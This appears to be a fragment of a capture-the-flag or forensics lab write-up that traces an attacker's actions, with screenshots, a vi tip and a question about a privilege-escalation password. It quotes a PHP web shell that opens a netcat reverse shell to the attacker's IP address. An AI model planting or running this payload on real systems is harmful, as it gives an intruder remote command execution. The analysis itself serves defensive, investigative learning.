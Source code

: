 ![](/assets/obsidian/51c3ca07b8ee77034f9c3222337dff7b.png)

```bash
vi payload.txt


# Press ":"

# Search and replace new lines with:

# %/s/\n
```

![](/assets/obsidian/88db14847545bb3407c27e7e6ac6e23e.png)

> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>


### What password did the attacker use to privesc?

From previous result, we acknowledge the attacker's ip is `192.168.170.145`

This is where attacker visit the reverse shell payload

![](/assets/obsidian/081a407d7b4ed95b81563029ccc907e8.png)
